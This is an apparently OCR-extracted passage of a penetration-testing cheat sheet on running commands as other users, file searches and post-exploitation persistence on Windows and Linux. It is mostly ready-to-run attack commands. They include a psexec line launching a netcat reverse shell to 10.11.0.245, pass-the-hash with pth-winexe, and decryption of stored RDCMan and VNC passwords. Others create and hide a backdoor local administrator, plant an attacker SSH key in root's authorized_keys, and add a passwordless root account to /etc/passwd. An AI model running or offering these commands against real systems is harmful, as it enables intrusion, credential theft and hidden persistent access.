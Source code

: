 cmd> powershell Start-Process cmd.exe -Credential (New-Object System.Management.Automation.PSCredential 'username', (ConvertTo-SecureString 'password' -AsPlainText -Force))
​
# without PS Remoting, with arguments
cmd> powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"
CMD
# Requires interactive console
runas /user:userName cmd.exe
PsExec
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
Pth-WinExe
pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe
Recursively Find Hidden Files: Windows
dir /A:H /s "c:\program files"
General File Search
# Query the local db for a quick file find. Run updatedb before executing locate.
locate passwd 
​
# Show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp
​
# Search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
Post-Exploitation & Maintaining Access
Browsing Registry Hives
hivesh /registry/file
Decrypting RDG Passwords
Remote Desktop Connection Manager passwords can be decrypted on the same computer/account they were encrypted:
Copy-Item 'C:\Program Files (x86)\Microsoft\Remote Desktop Connection Manager\RDCMan.exe C:\temp\RDCMan.dll’
Import-Module C:\temp\RDCMan.dll
$EncryptionSettings = New-Object -TypeName RdcMan.EncryptionSettings
[RdcMan.Encryption]::DecryptString($PwdString, $EncryptionSettings)
Decrypting VNC Password
wine vncpwdump.exe -k key
Creating User and Adding to Local Administrators
net user spotless spotless /add & net localgroup Administrators spotless /add
Hide Newly Created Local administrator
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v spotless /d 0 /f
Creating SSH Authorized Keys
mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys
Creating Backdoor User w/o Password
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd
​